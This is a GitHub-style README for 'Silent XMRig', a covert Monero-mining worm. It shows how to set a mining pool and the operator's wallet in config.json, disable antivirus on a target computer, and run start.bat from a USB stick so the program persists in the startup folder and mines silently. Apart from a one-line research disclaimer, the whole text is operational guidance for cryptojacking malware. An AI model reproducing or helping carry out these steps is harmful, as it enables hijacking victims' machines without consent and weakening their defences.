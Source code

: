 # Silent XMRig
Si. Spreads manually on a USB stick (only one file to start and the target computer is affected.)


# Setup

You will start by needing a Monero address and a monero mining pool, (MoneroOcean is default).

1. Navigate to xmrig/config.json and edit the following lines:

```json
{
   "url": "gulf.moneroocean.stream:10128 ", # mining pool url (leave as default if you don't know what a mining pool is)
   "user": "MONERO-ADDRESS-HERE", # your Monero address
   "pass": "hidden", # name of the machine that will be displayed on the mining pool
}
```

2. copy the code onto a USB drive
3. Setup Complete

# Spreading Process

1. Disable the antivirus on the target computer or add an exception for xmrig
2. Plug the USB drive into the computer or download your program from the cloud
3. Run start.bat. The worm will copy itself to the startup folder and will silently start mining Monero for you.
4. If you did not change the mining pool line in config.json, head over to https://moneroocean.stream/ and enter your Monero address, you should start earning after a few minutes.

# This project is intended for testing/research purposes only.
